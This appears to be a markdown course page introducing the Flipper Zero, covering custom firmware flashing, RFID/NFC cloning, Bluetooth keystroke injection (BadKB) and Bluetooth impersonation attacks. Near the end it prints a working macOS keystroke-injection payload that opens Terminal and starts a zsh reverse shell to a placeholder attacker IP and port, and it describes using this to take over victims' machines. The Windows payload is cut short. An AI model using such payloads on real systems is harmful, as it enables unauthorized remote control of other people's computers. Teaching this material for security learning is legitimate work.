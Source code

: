 ![](../Assets/ZTW_Logos_Text_only_light_wo_TL_500x185.png)

# Flipper Zero Unleashed

Welcome to the Flipper Zero Unleashed course. This class holds everything from
an intro to intermediate level content.

# Guide

The following will be covered in this course:

* Introduction to Flipper Zero
* Jail Breaking a Flipper Zero
* RFID Hacking
* Bad Bluetooth (BadKB)
* Bluetooth Impersonation Attacks

## Introduction to Flipper Zero

A Flipper Zero is a versatile and programmable multi tool that is commonly used
for hacking. It's a handheld device equipped with various features that allow
users to explore and understand different aspects of cybersecurity.

Here's a breakdown of its key features:

1. **RFID/NFC Emulation:** The Flipper Zero can emulate RFID and NFC cards,
  allowing users to interact with contactless systems and understand their
  vulnerabilities.
2. **Bluetooth Hacking:** It has capabilities to analyze and manipulate
  Bluetooth signals, making it a useful tool for learning about wireless
  security protocols.
3. **Infrared Control:** With infrared capabilities, the Flipper Zero can be
  used for tasks like controlling TVs and other devices that use infrared
  communication.
4. **Tamagotchi-Like Interface:** The device has a playful tamagotchi-like
  interface, making it more engaging for users while they learn about hacking
  and security.
5. **Open-Source and Customizable:** One of the notable aspects is that it's
  open-source, meaning users can modify and customize the software to suit their
  needs. This makes it a great tool for learning programming, cybersecurity, and
  ethical hacking.

## Jail Breaking a Flipper Zero

Jail Breaking a Flipper otherwise known as Flashing a Flipper typically refers
to the process of loading or updating the firmware on the device. Firmware is
the software that runs on embedded systems. Flashing is necessary when you want
to install new features to extend your hacking abilities.

You may be asking how do I flash firmware onto my Flipper, is it easy?

My answer to this yes it easy, if you use the Web Updater. Many GitHub
repositories provide instant links to the web updater to install their firmware.
Once you click these links all you have to do is plug in your flipper to your
machine and click `Update`.

### GitHub Repositories:

> Below are the GitHub Repositories for the two most common Flipper Firmware's

* Unleashed: [DarkFlippers/unleashed-firmware (github.com)](https://github.com/DarkFlippers/unleashed-firmware)
* Extreme: [Flipper-XFW/Xtreme-Firmware (github.com)](https://github.com/Flipper-XFW/Xtreme-Firmware)

### Web Updater:

> Below are Direct Links to the Flipper Labs Web Updater

* Unleashed: [Unleashed Web Updater](https://lab.flipper.net/?url=https://unleashedflip.com/fw/unlshd-069/flipper-z-f7-update-unlshd-069.tgz&channel=release-cfw&version=unlshd-069)
* Extreme: [Xtreme Web Updater](https://flipper-xtre.me/update/)

### Resources:

> Below is further Resources that might help you if your struggling to install firmware on your Flipper

* Ultimate Guide: [Talking Sasquatch : Starter Guide - YouTube](https://www.youtube.com/watch?v=12M_oHmxcCQ)

## NFC/RFID Hacking

The Flipper Zero is great for Hacking RFID and NFC cards or tags. To access
these navigate to the "Apps" section on your device.

It has the following Capabilities:

* **Sniffing/Reading:** The Flipper can read most cards/tags
* **Writing** The Flipper can write to other cards/tags
* **Emulate** The Flipper can emulate a signal it has previously read and stored

## How to Clone Emulate NFC

> Disclaimer: Always be aware of the type of card or tag you are trying to hack with the
> Flipper, this helps you understand what module you need to use to actually be
> able to read it. For example, if you have an iClass card you don't want to be
> using the Mifare NFC Module.

## Bad Bluetooth (BadKB)

I always tell others that Bad Bluetooth is basically a wireless rubber ducky
attack. If you don't know what a rubber ducky is then that's ok. Bad KB and Rubber
Duckies allows you to emulate a keyboard and send pre-programmed key strokes to
any device you are connected to. In this case of a rubber ducky you must plug it
into a computer as it looks like a "USB" device. But in this case The Flipper
must connect over Bluetooth to the victims device to launch the attack.

## Bluetooth Impersonation Attacks

Our team recently gained recognition on TheHackerNews for uncovering a Bluetooth
and macOS vulnerability. This exploit enabled us to mimic a Bluetooth device,
such as AirPods or an iPhone, using a Flipper Zero. By impersonating the MAC
Address, we could intercept or establish an initial connection with a victim's
machine. The success of this approach relied on the machine itself trusting us
as the legitimate AirPods or Bluetooth device of choice for the victim. Once the
initial connection was established, our Flippers could then function as
`HID Devices` (Keyboards) with the `Bad Bluetooth` (`BadKB`) module. This capability
allowed us to send malicious keystrokes, ultimately granting us reverse shell
access to the targeted machine.

* **The Hack News Article:** [New BLUFFS Bluetooth Attack Expose Devices to Adversary-in-the-Middle Attacks (thehackernews.com)](https://thehackernews.com/2023/12/new-bluffs-bluetooth-attack-expose.html)
* **ThreatLocker Blog Post:** [How Hackers Use Bluetooth to Take Over Your Mac Device | ThreatLocker](https://www.threatlocker.com/blog/mac-bluetooth-impersonation-attacks)
* **Reverse Shell Payloads:**
  * MacOS Payload:[ ZTW/Payload (github.com)](macos-reverseshell-payload.txt)
    ```bat
    REM --- MACOS REVERSE SHELL ---
    DEFAULT_DELAY 14
    DELAY 1000
    GUI SPACE
    DELAY 500
    STRING terminal
    DELAY 500
    ENTER
    DELAY 1000
    STRING zsh -c 'zmodload zsh/net/tcp && ztcp <IP-HERE> <PORT-HERE> && zsh >&$REPLY 2>&$REPLY 0>&$REPLY' & curl parrot.live
    DELAY 500
    ENTER
    ```
  * Windows Payload: [ZTW/Payloads (github.com)](windows-revershell-payload.txt)
    ```bat
    REM --- WINDOWS REVERSE SHELL ---
    GUI r
    ```

# Reference Links 

* **Unleashed Web Updater Version unlshd0.69:** [Unleashed Web Updater](https://lab.flipper.net/?url=https://unleashedflip.com/fw/unlshd-069/flipper-z-f7-update-unlshd-069.tgz&channel=release-cfw&version=unlshd-069)
* **Extreme Web Updater:** [Xtreme Web Updater](https://flipper-xtre.me/update/)
* **Unleashed Github:** [DarkFlippers/unleashed-firmware (github.com)](https://github.com/DarkFlippers/unleashed-firmware)
* **Extreme Github:** [Flipper-XFW/Xtreme-Firmware (github.com)](https://github.com/Flipper-XFW/Xtreme-Firmware)
* **Ultimate Guide For New Flipper Owners:** [Talking Sasquatch : Starter Guide - YouTube](https://www.youtube.com/watch?v=12M_oHmxcCQ)
* **The Hack News Article:** [New BLUFFS Bluetooth Attack Expose Devices to Adversary-in-the-Middle Attacks (thehackernews.com)](https://thehackernews.com/2023/12/new-bluffs-bluetooth-attack-expose.html)
* **ThreatLocker Blog Post:** [How Hackers Use Bluetooth to Take Over Your Mac Device | ThreatLocker](https://www.threatlocker.com/blog/mac-bluetooth-impersonation-attacks)
* **MacOS Payload:**[ ZTW/Payload (github.com)](macos-reverseshell-payload.txt)
* **Windows Payload:** [ZTW/Payloads (github.com)](windows-revershell-payload.txt)
